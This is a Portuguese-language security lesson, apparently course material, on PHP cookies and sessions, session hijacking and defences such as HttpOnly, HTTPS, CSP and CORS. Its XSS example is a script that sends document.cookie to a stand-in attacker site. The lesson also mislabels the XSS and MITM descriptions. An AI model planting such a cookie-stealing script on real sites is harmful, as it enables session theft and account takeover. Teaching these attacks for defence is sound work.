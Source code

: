 # Cookie e Sessão


## Cookies

_Cookies_ são pequenos fragmentos de informação que um site pode armazenar no computador do usuário para uso posterior. Eles se mostram úteis, uma vez que 
o protocolo HTTP não apresenta nenhum meio de tornar as informações de uma conexão persistente. Se dependêssemos apenas das conexões HTTP, seria impossível usar um carrinho de compras, pois ao trocar para a página de compra, as informações seriam perdidas.

Em um site de jogos de navegador, é muito comum que o progresso do jogo seja salvo em _cookies_ no navegador. Os _cookies_ também são bastante usados para armazenar configurações do cliente como volume do player de música ou vídeo, cor do fundo do site, etc.

Geralmente, os navegadores limitam o tamanho que um _cookie_ pode ter para 4KB, além de apagar _cookies_ que já tiveram sua validade vencida.

Exemplo de _cookie_ feito pelo PHP.
```php
<?php
    // cookies.php

    if (isset($_COOKIE['cookie_teste'])) {
        echo 'Você JÁ passou por aqui!';
    } else {
        echo 'Você NUNCA passou por aqui.'; 
        //Pode ser que você tenha passado há uma hora, mas o servidor não tem como saber
        setcookie('cookie_teste', 'Algum valor...', time() + 3600);
    }
?>
```
Retirado de https://klauslaube.com.br/2012/04/05/entendendo-os-cookies-e-sessoes.html.

Esse código implementa um conceito similar a sessão (mas ainda não é uma sessão), de forma que um certo conteúdo pode ser exibido de acordo com o intervalo de tempo desde a última visita. O _cookie_ no código possui uma hora de vida (3600 segundos).

Um _cookie_ é de acesso limitado ao site que o criou, de modo a garantir que um site mal intencionado não roube os _cookies_ que o site do seu banco armazenou no seu computador.

## Sessões

Agora, ao que nos interessa, **os _cookies_ podem ser usados como forma de autenticação**, geralmente armazenando o id de uma **sessão**. É graças às sessões que é possível se logar em sites de redes sociais apenas uma vez em muito tempo. Quando o usuário se conecta, uma sessão é iniciada e o id dessa sessão é salvo em um _cookie_ em seu computador. Este será usado mais tarde para informar ao servidor que o usuário já possui um sessão ativa. A maioria dos sites que implementa esse recurso estabelece uma data de expiração da sessão, de modo a invalidar o id salvo no _cookie_.

A grande diferença aqui é que **a sessão é armazenada no servidor**, enquanto **o _cookie_ é armazenado localmente**.

Exemplo de sessão em PHP

```php
<?php
    // sessions.php

    session_start();

    if (isset($_SESSION['usuario'])) {
        echo "Bem vindo {$_SESSION['usuario']}!";
    } else {
        echo 'Você NUNCA passou por aqui.';
        $_SESSION['usuario'] = 'João';
    }
?>
```
Retirado de https://klauslaube.com.br/2012/04/05/entendendo-os-cookies-e-sessoes.html

## Falhas

### Uso inocente de _cookies_

É necessário saber como usar os _cookies_. Um exemplo exagerado de mau uso seria um site que lê e salva um _cookie_ `admin=1` para admins e `admin=0` para usuários normais. Na primeira conexão o _cookie_ não existe, então o site manda o browser salvar `admin=0`. Quando o usuário entra com uma conta de administrador, o site manda o browser mudar para `admin=1` e o site exibe conteúdo que não era visível. Lindo, não?
O problema com essa forma de autenticação é que bastaria o usuário editar o próprio _cookie_ e alterar o conteúdo para se tornar administrador do site, burlando todo o sistema de segurança.

### Session Hijacking (Sequestro de Sessão)

Certo, essa foi uma falha bem besta, mas e se em vez de `admin=0`, o _cookie_ fosse `PHPSESSID=somesessionid`, _cookie_ identificador de uma sessão legítima?

Basta alguém conseguir ler esse _cookie_, que terá acesso à conta atrelada à sessão. Esse ataque é chamado de **Session Hijacking** ou Sequestro de Sessão.

Não tem como evitar que alguém que tenha acesso físico ao seu computador com o navegador aberto na página obtenha sua sessão, mas se ele chegou a esse ponto ele já tem controle total.

O que é possível é evitar que pessoas mal intencionadas obtenham sua sessão por meio de outros ataques, como **XSS (Cross-Site-script)** e **MITM (Man-In-The-Middle**), embora menos comum. O primeiro ataque é descrito basicamente com o atacante entrando no meio da conexão não encriptada (HTTP) e lendo todo o tráfego entre você e o site, incluindo os _cookies_ enviados e sua sessão. O segundo ataque resume-se no atacante injetar código na página de aluguma forma ([Ler mais sobre XSS](https://github.com/Haltz01/Ganesh_PingWeb2020_Aula01/blob/master/Aula01_XSS.md)), esse código injetado pode ler e modificar o conteúdo dos _cookies_ armazenados.

#### Exemplo de Session Hijacking por meio de XSS

```html
<script type="text/javascript">
new Image().src="http://www.sitedoatacante.com.br/cookies.php?c="+encodeURI(document.cookie);
</script>
```
Fonte: http://www.douglaspasqua.com/2012/01/14/seguranca-cookies-httponly/

Esse script colocado pelo atacante na página adiciona uma "imagem" na página. O navegador acessa o link indicado para baixar a imagem, mas no link é passado o cookie como parâmetro e o atacante usa um script no site dele para salvar o cookie que possui a sessão. Pronto, agora ele pode entrar na conta e fazer o que quiser! É por essa e por outras que alguns sites pedem para o usuário digitar novamente a senha ao alterar informações sensíveis da conta, como e-mail de recuperação e senha.



## Remediações

* Ataque XSS: definir os _cookies_ com a política HTTP-Only (Leia abaixo)
* Ataque MITM: criptografar a conexão, usando HTTPS ([Ler Mais](https://github.com/Haltz01/Ganesh_PingWeb2020_Aula01/blob/master/Aula01_HTTPS.md))

## Extras

### HTTP-ONLY

É sempre bom evitar brechas para ataques XSS, mas uma camada extra de proteção nunca é de mais. Um _cookie_ do tipo HTTP-Only não pode ser modificado por meio de javascript, seja ele legítimo da página ou injetado.

Dessa forma, é garantido que não haverá qualquer possibilidade de um _cookie_ (possivelmente uma sessão) ser roubado por meio de injeção de código (XSS).

Como definir um _cookie_ como HTTP-Only em PHP:

```php
//Template:
//setcookie ($name, $value, $expire, $path, $domain, $secure, $httponly);

//Definindo de fato:
setcookie("TesteCookie", "123456", 0, "/", "example.com", false, true);

//Ou, se preferir definir direto no header da response:
header("Set-Cookie: nome=valor; path=/; httpOnly" );
//É desse jeito que os cookies aparecem para o atacante que observa as respostas do servidor

//Por padrão, ao criar uma sessão no PHP, é criado um cookie usado para
//controlar o acesso do usuário na sessão. Normalmente o cookie é chamado
//PHPSESSID. Na configuração padrão esse cookie não é httpOlny. Para ativar o
//parâmetro httpOnly no cookie de sessão do PHP, setar a diretiva
//session.cookie_httponly no php.ini para true:
session.cookie_httponly = true

```
Fonte: http://www.douglaspasqua.com/2012/01/14/seguranca-cookies-httponly/

### CSP e CORS
CSP - Content Security Policy - é um _header_ na conexão HTTP ou HTTPS que indica ao navegador diversas medidas de segurança, visando à blindagem contra XSS.

CORS - Cross-Origin Resource Sharing - é um _header_ que o site passa para o navegador, dizendo com quais sites ele pode se conectar por meio da página atual. Esse recurso evita que XSS consiga enviar o _cookie_ roubado para o site do atacante. (Mesmo assim, ainda é possível burlar isso com callbacks em alguns casos).

[Leia mais na aula de XSS]((https://github.com/Haltz01/Ganesh_PingWeb2020_Aula01/blob/master/Aula01_XSS.md))

## Leia Mais
https://klauslaube.com.br/2012/04/05/entendendo-os-cookies-e-sessoes.html \
https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy \
https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS \
https://developer.mozilla.org/en-US/docs/Tools

---
